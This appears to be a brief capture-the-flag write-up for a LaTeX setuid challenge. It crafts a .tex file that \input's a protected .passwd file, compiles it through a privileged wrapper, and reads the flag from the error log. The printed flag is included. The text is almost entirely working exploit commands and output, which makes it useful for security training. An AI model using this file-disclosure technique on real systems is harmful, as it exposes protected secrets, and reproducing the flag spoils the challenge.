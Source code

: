 
```
echo "\documentclass{article}
\begin{document}
\catcode `\%=12
\input{/challenge/app-script/ch23/.passwd}
\end{document}" > /tmp/exp
```

```
./setuid-wrapper /tmp/exp
```
	[+] Compilation ...
	[!] Compilation error, your logs : /tmp/tmp.nGEha9a20M/main.log

```
cat /tmp/tmp.nGEha9a20M/main.log
```
	LaTeX_1nput_1s_n0t_v3ry_s3kur3